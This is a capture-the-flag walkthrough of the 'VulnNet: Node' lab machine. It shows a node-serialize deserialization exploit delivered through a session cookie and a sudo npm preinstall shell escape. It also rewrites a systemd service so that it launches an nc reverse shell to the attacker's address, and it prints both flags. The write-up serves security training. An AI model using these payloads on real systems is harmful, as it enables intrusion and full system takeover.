


# VulnNet: Node

After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?

VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network.

* Difficulty: Easy
* Web Language: JavaScript

This is again an attempt to recreate some more realistic scenario but with techniques packed into a single machine. Good luck!

# What is the user flag? (user.txt)

## Initial foothold

Nmap only detects 1 open port:

~~~
PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
~~~

## Port 8080

Connecting to this port in a browser shows a web page with posts, and a login button.

Enumerating the web server doesn't reveal much more:

~~~
kali@kali:/data/vpn$ gobuster dir -u http://10.10.36.223:8080/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.36.223:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/04/30 19:16:37 Starting gobuster
===============================================================
/css (Status: 301)
/img (Status: 301)
/login (Status: 200)
/Login (Status: 200)
===============================================================
2021/04/30 19:17:00 Finished
===============================================================
~~~

## Unserialize error

Intercepting the web page in BurpSuite will reveal a session cookie, even without being logged in:

After decoding it and trying to tamper its content without success, I eventually discovered that the web server was suffering from a critical unserialization vulnerability.

Intercept the request in BurpSuite, remove the content of the session cookie, and replace it with `abcd`:

~~~
GET / HTTP/1.1
Host: 10.10.8.182:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=abcd
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
~~~

It will output the following error:

~~~
SyntaxError: Unexpected token  in JSON at position 45
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/www/VulnNet-Node/server.js:16:24
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)

~~~

## Exploit (reverse shell)

Searching for "nodejs unserialize reverse shell" leads to [this page](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which I followed to generate the reverse shell payload.

Let's generate our reverse shell payload:

~~~
kali@kali:/data/VulnNet_Node/files$ python nodejsshell.py 10.8.50.72 4444
[+] LHOST = 10.8.50.72
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,[REDACTED],84,41,59,10))
~~~

Now let’s generate the serialized payload and add IIFE brackets after the function body.

~~~
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,[REDACTED],84,41,59,10))}()"}
~~~

At last, base64-encode the serialized payload:

~~~
kali@kali:/data/VulnNet_Node/files$ echo -n '{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode10,118,97,114,[REDACTED],84,41,59,10))}()"}' | base64
~~~

And use this base64 string as the `session` cookie (use BurpSuite Repeater):

~~~
GET / HTTP/1.1
Host: 10.10.8.182:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJyY2UiOiJfJ[REDACTED]9KCkifQ==
Upgrade-Insecure-Requests: 1
If-None-Match: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
Cache-Control: max-age=0

~~~

And now we have a reverse shell:

## Lateral move

There is no user flag in `/home/www/`, but the presence of `/home/serv-manage/` makes me thing I have to move laterally:

~~~
www@vulnnet-node:/home$ id
id
uid=1001(www) gid=1001(www) groups=1001(www)
www@vulnnet-node:/home$ ll
ll
total 16
drwxr-xr-x  4 root        root        4096 Jan 24 16:14 ./
drwxr-xr-x 23 root        root        4096 Jan 24 16:05 ../
drwxr-x--- 17 serv-manage serv-manage 4096 Jan 24 21:34 serv-manage/
drwxr-xr-x  7 www         www         4096 Jan 24 16:32 www/
www@vulnnet-node:/home$ ll www/
ll www/
total 40
drwxr-xr-x 7 www         www         4096 Jan 24 16:32 ./
drwxr-xr-x 4 root        root        4096 Jan 24 16:14 ../
lrwxrwxrwx 1 root        root           9 Jan 24 16:24 .bash_history -> /dev/null
-rw-r--r-- 1 www         www          220 Jan 24 16:14 .bash_logout
-rw-r--r-- 1 www         www         3771 Jan 24 16:14 .bashrc
drwx------ 3 www         www         4096 Jan 24 16:27 .config/
drwxrwxr-x 3 www         www         4096 Jan 24 16:32 .local/
drwxrwxr-x 5 serv-manage serv-manage 4096 Jan 24 16:28 .npm/
drwxrwxr-x 5 www         www         4096 May  1 07:36 .pm2/
-rw-r--r-- 1 www         www          807 Jan 24 16:14 .profile
drwxr-xr-x 5 www         www         4096 Jan 24 21:37 VulnNet-Node/
~~~

This assumption is also confirmed with privileges we have to run `npm` as `serv-manage`.

~~~
www@vulnnet-node:/home$ sudo -l
sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) reveals that we can move laterally:

~~~
www@vulnnet-node:~$ mkdir ~/tmp
www@vulnnet-node:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
www@vulnnet-node:~$ sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
$ id
id
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
~~~

## User flag

Let's get the user flag:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
serv-manage@vulnnet-node:/home/www/tmp$ cd /home/serv-manage/
serv-manage@vulnnet-node:~$ cat user.txt
THM{064640a2f880ce9ed7a54886f1bde821}
~~~

User flag: `THM{064640a2f880ce9ed7a54886f1bde821}`

# What is the root flag? (root.txt)

## The vulnnet service

We can start and stop the `vulnnet-auto.timer` as well as reload services, as `root` with `sudo` without password:

~~~
serv-manage@vulnnet-node:~$ sudo -l
sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
~~~

In addition, we have write access to the `vulnnet-auto.timer` script:

~~~
serv-manage@vulnnet-node:~$ find / -type f -name vulnnet-auto.timer -exec ls -l {} + 2>/dev/null
-rw-rw-r-- 1 root serv-manage 167 Jan 24 16:59 /etc/systemd/system/vulnnet-auto.timer
~~~

Below is the content of the `vulnnet-auto.timer` script:

~~~
serv-manage@vulnnet-node:/etc/systemd/system$ cat vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
~~~

It actually calls another script (`vulnnet-job.service`):

~~~
serv-manage@vulnnet-node:/etc/systemd/system$ cat vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
~~~

## Modify the scripts

Both scripts are writable to us. Let's stop the `vulnnet-auto.timer` service first:

~~~
$ sudo -u root /bin/systemctl stop vulnnet-auto.timer
~~~

We modify `vulnnet-auto.timer` so that it will run every minute instead of every 30 minutes:

~~~
$ cat > /etc/systemd/system/vulnnet-auto.timer << EOF 
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
EOF
~~~

In `vulnnet-job.service`, we modify the `ExecStart` command to call a reverse shell command.

~~~
$ cat > /etc/systemd/system/vulnnet-job.service << EOF
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer
 
[Service]
Type=forking
ExecStart=/bin/sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 5555 >/tmp/f'
 
[Install]
WantedBy=multi-user.target
EOF
~~~

Now, start a new listener on port `5555`, reload the services and start the `vulnnet-auto.timer` service:

~~~
$ sudo -u root /bin/systemctl daemon-reload
$ sudo -u root /bin/systemctl start vulnnet-auto.timer
~~~

## Root shell and flag

We now have a root shell:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.36.223] 40944
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls -la
total 100
drwx------ 18 root root 4096 Mar 21 13:52 .
drwxr-xr-x 23 root root 4096 Jan 24 16:05 ..
lrwxrwxrwx  1 root root    9 Jan 24 16:24 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  6 root root 4096 Mar 21 13:52 .cache
drwx------ 12 root root 4096 Mar 21 13:51 .config
drwx------  3 root root 4096 Mar 21 13:51 .dbus
drwx------  2 root root 4096 Mar 21 13:51 Desktop
-rw-r--r--  1 root root   41 Mar 21 13:51 .dmrc
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Documents
drwxr-xr-x  3 root root 4096 Mar 21 14:08 Downloads
drwx------  3 root root 4096 Mar 21 13:51 .gnupg
drwxr-xr-x  3 root root 4096 Jan 24 16:36 .local
drwx------  5 root root 4096 Mar 21 13:52 .mozilla
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Music
drwxr-xr-x  4 root root 4096 Jan 24 16:29 .npm
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Pictures
drwxr-xr-x  5 root root 4096 Jan 24 16:34 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Public
-rw-------  1 root root   38 Jan 24 17:11 root.txt
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Templates
drwxr-xr-x  2 root root 4096 Mar 21 13:51 Videos
-rw-------  1 root root   57 Mar 21 13:51 .Xauthority
-rw-r--r--  1 root root   14 Feb 12  2018 .xscreensaver
-rw-------  1 root root 2386 Mar 21 13:51 .xsession-errors
# cat root.txt
THM{abea728f211b105a608a720a37adabf9}
~~~

Root flag: `THM{abea728f211b105a608a720a37adabf9}`
